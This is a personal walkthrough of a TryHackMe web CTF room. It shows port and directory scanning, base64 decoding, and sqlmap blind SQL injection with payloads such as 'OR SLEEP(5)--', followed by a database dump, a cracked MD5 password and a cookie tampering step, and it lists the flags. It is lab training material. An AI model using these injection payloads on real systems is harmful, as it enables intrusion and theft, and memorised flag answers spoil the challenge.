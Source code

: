 <p align="left">November 6, 2024 - Hey there, fellow lifelong learner!<br>
I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>, and I’m genuinely excited to join you on this adventure. It´s part of my $$\textcolor{#FF69B4}{\textbf{184}}$$-day-streak in  <a href="https://tryhackme.com/r/p/Rosana">TryHackMe</a>.</p>

<h1 align="center">
  $$\textcolor{#3bd62d}{\textnormal{&nbsp; CTF collection Vol.2}}$$
</h1>

<p align="center">Sharpening up your CTF skill with the collection. The second volume is about web-based CTF.<br>
                  Access this 🆓 TryHackMe CTF Room clicking <a href="https://tryhackme.com/r/room/ctfcollectionvol2">CTF collection VOl.2</a>.</p><br>
<p align="center">
  <img height="150px" hspace="20" src="https://github.com/user-attachments/assets/6628e1a4-ea67-4e69-b719-702b2fc07e4c">
  <img height="150px" src="https://github.com/user-attachments/assets/88772c45-e475-4d0a-a8cb-c1c1440725d7">
</p>

<h2>Task 1 - Author note</h2>

<p>Welcome, welcome and welcome to another CTF collection. This is the second installment of the CTF collection series. For your information, the second serious focuses on the web-based challenge. There are a total of 20 easter eggs a.k.a flags can be found within the box. Let see how good is your CTF skill.<br>

Now, deploy the machine and collect the eggs!</p>

<p>Warning: The challenge contains seizure images and background. If you feeling uncomfortable, try removing the background on <style> tag.</p>

Note: All the challenges flag are formatted as THM{flag}, unless stated otherwise</p>

> 1.1 - <em>Fact: Eggs contain the highest quality protein you can buy.</em><br>
>> <strong>No answer needed</strong><br>
<p><br></p>



<h2>Task 2 - Easter egg</h2>

<p>Submit all your easter egg right here. Gonna find it all!</p>

> 2.1 - <em>Easter 1</em><br>
> <code>Question Hint</code>: Check the robots.
>> <strong>THM{4u70b07_r0ll_0u7}</strong>
<p></p>

<pre><code>$ rustscan -a 10.10.157.196 -- -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
\U0001f30dHACK THE PLANET\U0001f30d

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.10.157.196:22
Open 10.10.157.196:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.80 ( https://nmap.org ) at 2024-11-06 21:27 UTC
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 21:27
Scanning 10.10.157.196 [2 ports]
Completed Ping Scan at 21:27, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:27
Completed Parallel DNS resolution of 1 host. at 21:27, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 21:27
Scanning ip-10-10-157-196.eu-west-1.compute.internal (10.10.157.196) [2 ports]
Discovered open port 80/tcp on 10.10.157.196
Discovered open port 22/tcp on 10.10.157.196
Completed Connect Scan at 21:27, 0.00s elapsed (2 total ports)
Initiating Service scan at 21:27
Scanning 2 services on ip-10-10-157-196.eu-west-1.compute.internal (10.10.157.196)
Completed Service scan at 21:28, 6.09s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.157.196.
SE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 21:28
Completed NSE at 21:28, 0.03s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 21:28
Completed NSE at 21:28, 0.04s elapsed
Nmap scan report for ip-10-10-157-196.eu-west-1.compute.internal (10.10.157.196)
Host is up, received syn-ack (0.00050s latency).
Scanned at 2024-11-06 21:27:53 UTC for 7s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.01 seconds
</code></pre>

![image](https://github.com/user-attachments/assets/7cf7a060-19c7-4740-9d08-d7c85c32c93f)

<pre><code>root@ip-[Attack_IP]:~# gobuster dir -u http://10.10.157.196 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.157.196
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 301) [Size: 314] [--> http://10.10.157.196/login/]
/index                (Status: 200) [Size: 94328]
/button               (Status: 200) [Size: 39148]
/static               (Status: 200) [Size: 253890]
/cat                  (Status: 200) [Size: 62048]
/small                (Status: 200) [Size: 689]
/who                  (Status: 200) [Size: 3847428]
/robots               (Status: 200) [Size: 430]
/iphone               (Status: 200) [Size: 19867]
/game1                (Status: 301) [Size: 314] [--> http://10.10.157.196/game1/]
/egg                  (Status: 200) [Size: 25557]
/dinner               (Status: 200) [Size: 1264533]
/ty                   (Status: 200) [Size: 198518]
/ready                (Status: 301) [Size: 314] [--> http://10.10.157.196/ready/]
/saw                  (Status: 200) [Size: 156274]
/game2                (Status: 301) [Size: 314] [--> http://10.10.157.196/game2/]
/wel                  (Status: 200) [Size: 155758]
/free_sub             (Status: 301) [Size: 317] [--> http://10.10.157.196/free_sub/]
/nicole               (Status: 200) [Size: 367650]
/server-status        (Status: 403) [Size: 294]
Progress: 135446 / 220561 (61.41%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 136330 / 220561 (61.81%)
===============================================================
Finished
===============================================================
root@ip-[Attack_IP]:~# 
</code></pre>

![image](https://github.com/user-attachments/assets/80d5876a-803a-4afe-be31-e0c21c0004ad)

![image](https://github.com/user-attachments/assets/710449d5-e0fa-4547-873a-d689be15fc48)

<pre><code>root@ip-[Attack_IP]:~# echo "45 61 73 74 65 72 20 31 3a 20 54 48 4d 7b 34 75 37 30 62 30 37 5f 72 30 6c 6c 5f 30 75 37 7d" | xxd -r -p
Easter 1: THM{4u70b07_r0ll_0u7}
root@ip-[Attack_IP]:~# 
</code></pre>

<br>

> 2.2 - <em>Easter 2</em><br>
> <code>Question Hint</code>: Decode the base64 multiple times. Don't forget there are something being encoded.
>> <strong>THM{f4ll3n_b453}</strong>
<p></p>

![image](https://github.com/user-attachments/assets/6d2d90e5-e448-4968-9201-27d4026d44b7)

<pre><code>root@ip-[Attack_IP]:~# sudo apt-get install gridsite-clients
</code></pre>

<pre><code>root@ip-[Attack_IP]:~# urlencode -d $(echo "VlNCcElFSWdTQ0JKSUVZZ1dTQm5JR1VnYVNCQ0lGUWdTU0JFSUVrZ1p5QldJR2tnUWlCNklFa2dSaUJuSUdjZ1RTQjVJRUlnVHlCSklFY2dkeUJuSUZjZ1V5QkJJSG9nU1NCRklHOGdaeUJpSUVNZ1FpQnJJRWtnUlNCWklHY2dUeUJUSUVJZ2NDQkpJRVlnYXlCbklGY2dReUJDSUU4Z1NTQkhJSGNnUFElM0QlM0Q=" | base64 -d) | base64 -d | sed "s/\ //g" | base64 -d | sed "s/\ //g" | base64 -d
DesKel_secret_base
</code></pre>

![image](https://github.com/user-attachments/assets/34444a26-e7bc-418f-9ec4-2bf011f9ab03)

![image](https://github.com/user-attachments/assets/febcb3a7-3bbc-4e89-ad25-ad043f9daa53)     

<br>

> 2.3 - <em>Easter 3</em><br>
> <code>Question Hint</code>: Directory buster with common.txt might help.
>> <strong>THM{y0u_c4n'7_533_m3}</strong>
<p></p>

![image](https://github.com/user-attachments/assets/0059e8dc-d592-4055-b802-8b35c146d8dc)

![image](https://github.com/user-attachments/assets/4c0cf585-4d13-4ecd-bee6-197160b3b139)

<br>

> 2.4 - <em>Easter 4</em><br>
> <code>Question Hint</code>: time-based sqli
>> <strong>THM{1nj3c7_l1k3_4_b055}</strong>
<p></p>

![image](https://github.com/user-attachments/assets/56d0d814-c921-4443-8361-a38febbae083)

![image](https://github.com/user-attachments/assets/5b40e8da-e1a9-4c97-965c-e1b5905d80ed)

![image](https://github.com/user-attachments/assets/190353b2-b02f-4305-8e98-95c06212613e)

<pre><code>root@ip-[Attack_IP]:~# sqlmap -r request.txt --dbs --level 3 --risk 3
...
...
22:12:17] [INFO] testing 'MySQL >= 5.0.12 time-based blind - ORDER BY, GROUP BY clause'
[22:12:17] [INFO] testing 'MySQL <= 5.0.11 time-based blind - ORDER BY, GROUP BY clause (heavy query)'
[22:12:17] [INFO] testing 'Generic UNION query (93) - 1 to 10 columns'
[22:12:18] [INFO] testing 'MySQL UNION query (93) - 1 to 10 columns'
[22:12:20] [WARNING] User-Agent parameter 'User-Agent' does not seem to be injectable
sqlmap identified the following injection point(s) with a total of 21062 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-4382' OR 3822=3822-- KYTP&password=admin&submit=submit

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=admin' OR SLEEP(5)-- EDrn&password=admin&submit=submit
---
[22:12:20] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[22:12:20] [INFO] fetching database names
[22:12:20] [INFO] fetching number of databases
[22:12:20] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[22:12:20] [INFO] retrieved: 4
[22:12:20] [INFO] retrieved: information_schema
[22:12:21] [INFO] retrieved: THM_f0und_m3
[22:12:21] [INFO] retrieved: mysql
[22:12:21] [INFO] retrieved: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] THM_f0und_m3

[22:12:22] [INFO] fetched data logged to text files under '/root/.sqlmap/output/[Target_IP]'

[*] shutting down at 22:12:22
</code></pre>

<pre><code>root@root@ip-[Attack_IP]:~# sqlmap -r request --dbs --level 3 --risk 3 -D THM_f0und_m3 --tables
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2.4#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 22:14:05

[22:14:05] [INFO] parsing HTTP request from 'request'
[22:14:05] [INFO] resuming back-end DBMS 'mysql' 
[22:14:05] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-4382' OR 3822=3822-- KYTP&password=admin&submit=submit

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=admin' OR SLEEP(5)-- EDrn&password=admin&submit=submit
---
[22:14:05] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[22:14:05] [INFO] fetching database names
[22:14:05] [INFO] fetching number of databases
[22:14:05] [INFO] resumed: 4
[22:14:05] [INFO] resumed: information_schema
[22:14:05] [INFO] resumed: THM_f0und_m3
[22:14:05] [INFO] resumed: mysql
[22:14:05] [INFO] resumed: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] THM_f0und_m3

[22:14:05] [INFO] fetching tables for database: 'THM_f0und_m3'
[22:14:05] [INFO] fetching number of tables for database 'THM_f0und_m3'
[22:14:05] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[22:14:05] [INFO] retrieved: 2
[22:14:05] [INFO] retrieved: nothing_inside
[22:14:06] [INFO] retrieved: user
Database: THM_f0und_m3
[2 tables]
+----------------+
| user           |
| nothing_inside |
+----------------+

[22:14:06] [INFO] fetched data logged to text files under '/root/.sqlmap/output/[Target_ID]'

[*] shutting down at 22:14:06

root@ip-[Attack_IP]:~# 
</code></pre>

<br>

<pre><code>root@root@ip-[Attack_IP]:~# sqlmap -r request --dbs --level 3 --risk 3 -T nothing_inside --columns
       ___
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 22:17:23

[22:17:23] [INFO] parsing HTTP request from 'request'
[22:17:23] [INFO] resuming back-end DBMS 'mysql' 
[22:17:23] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-4382' OR 3822=3822-- KYTP&password=admin&submit=submit

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=admin' OR SLEEP(5)-- EDrn&password=admin&submit=submit
---
[22:17:23] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[22:17:23] [INFO] fetching database names
[22:17:23] [INFO] fetching number of databases
[22:17:23] [INFO] resumed: 4
[22:17:23] [INFO] resumed: information_schema
[22:17:23] [INFO] resumed: THM_f0und_m3
[22:17:23] [INFO] resumed: mysql
[22:17:23] [INFO] resumed: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] THM_f0und_m3

[22:17:23] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) columns
[22:17:23] [INFO] fetching current database
[22:17:23] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[22:17:23] [INFO] retrieved: THM_f0und_m3
[22:17:23] [INFO] fetching columns for table 'nothing_inside' in database 'THM_f0und_m3'
[22:17:23] [INFO] retrieved: 1
[22:17:23] [INFO] retrieved: Easter_4
[22:17:24] [INFO] retrieved: varchar(30)
Database: THM_f0und_m3
Table: nothing_inside
[1 column]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| Easter_4 | varchar(30) |
+----------+-------------+

[22:17:24] [INFO] fetched data logged to text files under '/root/.sqlmap/output/[Target_IP]'

[*] shutting down at 22:17:24

root@ip-10-10-146-248:~# 
</code></pre>


<pre><code>root@root@ip-[Attack_IP]:~# sqlmap -r request --dbs --level 3 --risk 3 -T nothing_inside --dump-all
       ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 22:19:29

[22:19:29] [INFO] parsing HTTP request from 'request'
[22:19:29] [INFO] resuming back-end DBMS 'mysql' 
[22:19:29] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-4382' OR 3822=3822-- KYTP&password=admin&submit=submit

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=admin' OR SLEEP(5)-- EDrn&password=admin&submit=submit
---
[22:19:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[22:19:29] [INFO] fetching database names
[22:19:29] [INFO] fetching number of databases
[22:19:29] [INFO] resumed: 4
[22:19:29] [INFO] resumed: information_schema
  ...
  ...
[22:20:00] [INFO] fetching entries for table 'nothing_inside' in database 'THM_f0und_m3'
[22:20:00] [INFO] fetching number of entries for table 'nothing_inside' in database 'THM_f0und_m3'
[22:20:00] [INFO] retrieved: 1
[22:20:00] [INFO] retrieved: THM{1nj3c7_l1k3_4_b055}
Database: THM_f0und_m3
Table: nothing_inside
[1 entry]
+-------------------------+
| Easter_4                |
+-------------------------+
| THM{1nj3c7_l1k3_4_b055} |
+-------------------------+

[22:20:01] [INFO] table 'THM_f0und_m3.nothing_inside' dumped to CSV file '/root/.sqlmap/output/10.10.157.196/dump/THM_f0und_m3/nothing_inside.csv'
[22:20:01] [INFO] fetching columns for table 'user' in database 'THM_f0und_m3'
[22:20:01] [INFO] retrieved: 2
[22:20:01] [INFO] retrieved: username
[22:20:01] [INFO] retrieved: password
[22:20:01] [INFO] fetching entries for table 'user' in database 'THM_f0und_m3'
[22:20:01] [INFO] fetching number of entries for table 'user' in database 'THM_f0und_m3'
[22:20:01] [INFO] retrieved: 2
[22:20:01] [INFO] retrieved: 05f3672ba34409136aa71b8d00070d1b
[22:20:03] [INFO] retrieved: DesKel
[22:20:03] [INFO] retrieved: He is a nice guy, say hello for me
...  
</code></pre>

<br>

> 2.5 - <em>Easter 5</em><br>
> <code>Question Hint</code>: Another sqli
>> <strong>THM{wh47_d1d_17_c057_70_cr4ck_7h3_5ql}</strong>
<p></p>

<pre><code>root@root@ip-[Attack_IP]:~# sqlmap -r request --dbs --level 3 --risk 3 -T nothing_inside --dump-all
...
[22:20:00] [INFO] fetching entries for table 'nothing_inside' in database 'THM_f0und_m3'
[22:20:00] [INFO] fetching number of entries for table 'nothing_inside' in database 'THM_f0und_m3'
[22:20:00] [INFO] retrieved: 1
[22:20:00] [INFO] retrieved: THM{1nj3c7_l1k3_4_b055}
Database: THM_f0und_m3
Table: nothing_inside
[1 entry]
+-------------------------+
| Easter_4                |
+-------------------------+
| THM{1nj3c7_l1k3_4_b055} |
+-------------------------+
...
[22:45:04] [INFO] table 'THM_f0und_m3.nothing_inside' dumped to CSV file '/root/.sqlmap/output/10.10.157.196/dump/THM_f0und_m3/nothing_inside.csv'
[22:45:04] [INFO] fetching columns for table 'user' in database 'THM_f0und_m3'
[22:45:04] [INFO] resumed: 2
[22:45:04] [INFO] resumed: username
[22:45:04] [INFO] resumed: password
[22:45:04] [INFO] fetching entries for table 'user' in database 'THM_f0und_m3'
[22:45:04] [INFO] fetching number of entries for table 'user' in database 'THM_f0und_m3'
[22:45:04] [INFO] resumed: 2
[22:45:04] [INFO] resumed: 05f3672ba34409136aa71b8d00070d1b
[22:45:04] [INFO] resumed: DesKel
[22:45:04] [INFO] resumed: He is a nice guy, say hello for me
[22:45:04] [INFO] resumed: Skidy
[22:45:04] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[22:45:09] [INFO] writing hashes to a temporary file '/tmp/sqlmapt34iIC14886/sqlmaphashes-XYsiDb.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q]                                                          
Database: THM_f0und_m3                                                                                                                   
Table: user
[2 entries] 
</code></pre>

![image](https://github.com/user-attachments/assets/dc41a558-f11a-4fef-98ca-e27711b03a3b)

<p>User: DesKel<br>
Password: cutie</p>

![image](https://github.com/user-attachments/assets/26d6e431-b377-4c90-b693-214c54fd0954)

![image](https://github.com/user-attachments/assets/6974dd72-3c96-470f-a51d-8ea3cc9cc7a6)

<br>

> 2.6 - <em>Easter 6</em><br>
> <code>Question Hint</code>: Look out for the response header.
>> <strong>THM{l37'5_p4r7y_h4rd}</strong>
<p></p>

![image](https://github.com/user-attachments/assets/f6813926-8e54-4a6a-afd2-efcde1232507)

![image](https://github.com/user-attachments/assets/d97e119a-f9ed-4350-b6ad-6c346e267f6b)

<br>

> 2.7 - <em>Easter 7</em><br>
> <code>Question Hint</code>: Cookie is delicious
>> <strong>THM{w3lc0m3!_4nd_w3lc0m3}</strong>
<p></p>

![image](https://github.com/user-attachments/assets/72ca764f-08cf-43ee-aecf-b8dd7f3bf03e)

<p>I sent it to Repeater changing <code>Cookie</code> parameter to <code>Invited=1</code> and it worked!</p>

![image](https://github.com/user-attachments/assets/826071a8-7644-4c28-80e5-c2d37f71f72a)

<br>

> 2.8 - <em>Easter 8</em><br>
>> <strong>______</strong><br>
<p><br></p>

> 2.9 - <em>Easter 9</em><br>
>> <strong>______</strong><br>
<p><br></p>

> .2.10 - <em>Easter 10</em><br>
>> <strong>______</strong><br>
<p><br></p>






